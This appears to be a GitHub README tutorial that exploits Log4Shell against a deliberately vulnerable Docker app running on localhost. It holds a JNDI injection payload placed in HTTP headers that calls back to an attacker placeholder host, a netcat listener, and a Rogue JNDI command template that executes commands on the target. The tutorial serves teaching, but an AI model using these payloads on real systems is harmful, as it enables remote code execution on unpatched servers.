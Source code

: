 # Log4J-Demo

## What is Log4J? 

- A logging tool, written in Java, that is commonly used in many applications across the internet

## Setting Up Environment

First get the vulnerable docker and run it using [^1]: 

```sh
docker pull ghcr.io/christophetd/log4shell-vulnerable-app:latest
docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app@sha256:6f88430688108e512f7405ac3c73d47f5c370780b94182854ea2cddc6bd59929
```

## Finding the Exploit 

The docker container will now be running on `localhost:8080`. Go there in *BurpSuit* and send the `GET` request to the repeter. The request should look something like this: 

```http
GET / HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Now we are going to see if the server is vulnerable to *Log4J*. First try changing the `HTTP` headers to the following `JNDI` command:

```
${jndi:ldaps//YOUR_IP:553}
```

We are now going to start listening on our local machine using *Netcat* to see if any of these headers worked: 

```sh
nc -lvnp 553
```

The `GET` request should now look something like this: 

```https
GET / HTTP/1.1
Host: localhost:8080
Cache-Control: ${jndi:ldaps//YOUR_IP:553}
sec-ch-ua: ${jndi:ldaps//YOUR_IP:553}
sec-ch-ua-mobile: ${jndi:ldaps//YOUR_IP:553}
sec-ch-ua-platform: ${jndi:ldaps//YOUR_IP:553}
Upgrade-Insecure-Requests: ${jndi:ldaps//YOUR_IP:553}
User-Agent: ${jndi:ldaps//YOUR_IP:553}
Accept: ${jndi:ldaps//YOUR_IP:553}
Sec-Fetch-Site: ${jndi:ldaps//YOUR_IP:553}
Sec-Fetch-Mode: ${jndi:ldaps//YOUR_IP:553}
Sec-Fetch-User: ${jndi:ldaps//YOUR_IP:553}
Sec-Fetch-Dest: ${jndi:ldaps//YOUR_IP:553}
Accept-Encoding: ${jndi:ldaps//YOUR_IP:553}
Accept-Language: ${jndi:ldaps//YOUR_IP:553}
Connection: close
```

> **NOTE:** you will need to put in the `JNDI` request one by one to see which `HTTP` header is vulnerable. 

None of these `HTTP` headers are vulnerable, you can now try putting in new one to see if any of those are vulnerable. This server happens to have a *Log4J* vulnerablility on the `X-Api-Version` header. 

If you put the following response in the `HTTP` request, you should get a response in *Netcat*: 

```http
X-Api-Version: ${jndi:ldaps//YOUR_IP:553}
```

This tells you that the server is vulnerable to the exploit. 

## Exploitation 

We will be using a tool called [Rogue JNDI](https://github.com/veracode-research/rogue-jndi) to exploit the server. This program contains a "`LDAP` & `HTTP` servers for exploiting insecure-by-default `Java JNDI API`". There is a `JAR` file provided in this repo to run it, use the following command as a template to run the `LDAP` server: 

```sh
java -jar target/RogueJndi-1.1.jar --command "COMMAND_TO_EXECUTE_ON_TARGET" --hostname "TARGET_IP"
```



### Are you Vulnerable? 

- https://github.com/NCSC-NL/log4shell

[^1]: [Docker container created by christophetd](https://github.com/christophetd/log4shell-vulnerabre-app) 
